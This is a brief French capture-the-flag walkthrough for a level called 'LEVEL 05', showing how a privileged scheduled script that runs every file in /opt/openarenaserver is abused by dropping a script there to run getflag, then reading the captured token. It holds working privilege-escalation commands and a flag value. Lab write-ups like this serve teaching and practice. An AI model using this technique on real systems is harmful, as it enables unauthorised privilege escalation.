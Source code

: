 # LEVEL 05
```
find / -user flag05 2>/dev/null

/usr/sbin/openarenaserver
/rofs/usr/sbin/openarenaserver
```

On affiche le contenue 
```
cat /usr/sbin/openarenaserver

#!/bin/sh

for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done
```

D'après ce code on voit qu'il execute les fichiers de /opt/openarenaserver/ et les supprime par la suite
comme les precedent exercice on va utiliser getflag comme fichier a executer

On ajoute un fichier dans ce dossier qui execute la commande getflag et enregistre le resultat dans un fichier sous /tmp
```
echo "getflag > /tmp/getflag" > /opt/openarenaserver/getflag.sh
```

Après 30 secondes environs
```
cat /tmp/getflag
Check flag.Here is your token : viuaaale9huek52boumoomioc
```
